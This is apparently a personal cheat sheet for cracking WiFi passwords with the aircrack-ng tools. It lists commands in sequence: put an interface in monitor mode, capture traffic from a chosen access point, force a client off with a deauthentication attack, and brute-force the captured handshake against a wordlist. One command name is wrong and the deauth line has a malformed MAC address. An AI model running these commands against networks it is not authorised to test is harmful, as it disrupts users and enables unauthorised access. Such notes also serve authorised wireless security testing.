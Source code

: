 # Aircrack

## Aircrack&#x20;

### Enable/list interface&#x20;

```csharp
airmon-ng start wlx00c0ca9020a9
```

### Kill process&#x20;

```csharp
 airmon-ng check kill
```

### Listen for wifi&#x20;

```
 airodump wlan0mon
```

### Grab a network&#x20;

```csharp
airodump-ng -c 1 -w w1 --bssid 12:33:44:55:66:77 wlan0mon
```

### Dessassociate a client&#x20;

```csharp
aireplay-ng -0 0 -a 012:33:44:55:66:77 -c 94:65:2D:11:22:33 wlan0mon
```

### Sniff and get pcap

Then aircrack :)

### bruteforcing

```csharp
aircrack-ng -w w.t w1-02.cap
```



## Resources

